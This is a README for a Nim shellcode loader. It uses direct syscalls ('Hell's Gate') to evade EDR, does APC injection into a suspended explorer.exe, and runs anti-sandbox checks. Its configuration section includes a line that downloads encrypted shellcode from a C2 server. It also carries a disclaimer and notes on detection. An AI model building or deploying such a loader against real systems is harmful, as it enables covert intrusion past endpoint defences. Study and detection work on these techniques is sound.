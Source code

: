 # Shellcode Injection via Direct Syscalls (Hell's Gate)

## Overview

This project demonstrates advanced Windows process injection techniques using direct system calls to bypass EDR (Endpoint Detection and Response) hooks. It implements the "Hell's Gate" technique to extract syscall numbers directly from `ntdll.dll` and execute them without going through hooked API functions.

## Features

- **Direct Syscall Execution**: Bypasses userland API hooks by invoking syscalls directly
- **Hell's Gate Technique**: Dynamically extracts syscall numbers from ntdll.dll at runtime
- **Process Hollowing**: Creates a suspended process and injects shellcode via APC (Asynchronous Procedure Call)
- **RC4 Encryption**: Downloads and decrypts shellcode from a remote server
- **Anti-Sandbox**: Basic memory checks to detect virtual environments

## Technical Implementation

### Direct Syscalls

The project implements three core NT functions via direct syscalls:

1. **NtAllocateVirtualMemory** - Allocates memory in the target process
2. **NtWriteVirtualMemory** - Writes shellcode to allocated memory
3. **NtQueueApcThread** - Queues an APC to execute the shellcode

### Syscall Stub Generation

For each syscall, the code:
1. Extracts the syscall number from the corresponding function in ntdll.dll
2. Validates the function prologue pattern (`4C 8B D1 B8`)
3. Generates a minimal assembly stub in executable memory
4. Executes the syscall directly

### Injection Flow

```
1. Download encrypted shellcode from C2 server
2. Decrypt using RC4
3. Create suspended explorer.exe process
4. Allocate RWX memory via NtAllocateVirtualMemory (syscall)
5. Write shellcode via NtWriteVirtualMemory (syscall)
6. Queue APC via NtQueueApcThread (syscall)
7. Resume thread to trigger execution
```

## Requirements

- Windows 10/11 (x64)
- Nim compiler
- Required Nim packages:
  - `winim`
  - `httpclient`
  - `RC4`

```bash
nimble install winim RC4
```

## Compilation
Debug :
```bash
nim c main.nim
```

For smaller binary size:
```bash
nim c -d:st3 main.nim
```

## Configuration

Update the C2 server URL in the code:
```nim
data = client.getContent("http://192.168.1.19:8080/api_local")
```

Update the RC4 key:
```nim
key : string = "kernel32.dll"
```

## Disclaimer

⚠️ **FOR EDUCATIONAL PURPOSES ONLY**

This code is provided for educational and research purposes to understand advanced malware techniques and improve defensive security measures. Unauthorized use of this code for malicious purposes is illegal and unethical.

- Only use in authorized environments (your own lab, with explicit permission)
- Never deploy against systems you don't own or have written permission to test
- The authors assume no liability for misuse of this code

## Detection & Defense

Security professionals can detect this technique by:

- Monitoring for direct syscall execution patterns
- Detecting unusual assembly stub creation in memory
- Analyzing process creation with suspended threads
- Monitoring APC queue operations
- Network traffic analysis for encrypted payload downloads

## License

This project is licensed under the MIT License - see the LICENSE file for details.

This project was generated in part with AI | Contributions and improvements welcome
